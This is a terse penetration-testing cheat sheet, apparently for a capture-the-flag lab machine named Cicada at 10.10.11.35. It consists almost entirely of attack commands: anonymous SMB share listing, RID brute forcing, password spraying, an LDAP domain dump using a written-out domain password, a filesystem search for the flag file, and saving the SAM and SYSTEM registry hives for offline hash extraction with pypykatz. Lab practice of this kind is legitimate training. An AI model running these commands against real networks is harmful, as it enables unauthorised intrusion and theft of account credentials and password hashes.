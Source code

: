 #### SMB:
  * smbclient -N -L //10.10.11.35
  * netexec smb 10.10.11.35 -u 'a' -p '' --shares
  * smbclient -U Guest //10.10.11.35/share
  * netexec smb 10.10.11.35 -u Guest -p '' --rid-brute
  * netexec smb 10.10.11.35 -u username.txt -p 'password123!'

### LDAP:
  * ldapdomaindump 10.10.11.35 -u 'domain\username' -p 'password123!'
  * ldapdomaindump 10.10.11.35 -u 'cicada\michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8'

#### Powershell:
  * Get-ChildItem -Path C:\ -Recurse -Filter "user.txt" -ErrorAction SilentlyContinue

#### System SAM Hive dump:
  * cd c:\
  * mkdir Temp
  * reg save hklm\sam c:\Temp\sam
  * reg save hklm\system c:\Temp\system
  * cd Temp
  * download sam
  * download system
  * pypykatz registry --sam sam system 
